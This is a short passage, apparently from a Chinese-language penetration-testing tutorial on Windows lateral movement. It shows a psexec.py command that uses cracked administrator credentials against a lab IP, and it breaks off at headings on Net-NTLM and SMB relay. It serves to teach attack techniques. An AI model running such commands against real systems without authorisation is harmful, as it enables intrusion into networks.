 [![](assets/1701222524-3e2b7fedc09b758d196e6d3568f3636d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128143329-0b3f442c-8db8-1.png)  
通过破解的账户与密码我们即可进行横向移动连接远程主机了：

```plain
./psexec.py hacker/administrator:'admin'@192.168.188.3
```

[![](assets/1701222524-775a440f99cc15c90f565d8e86b28daa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128143353-194213e2-8db8-1.png)

## Net-NTLM Relay

### SMB 中继
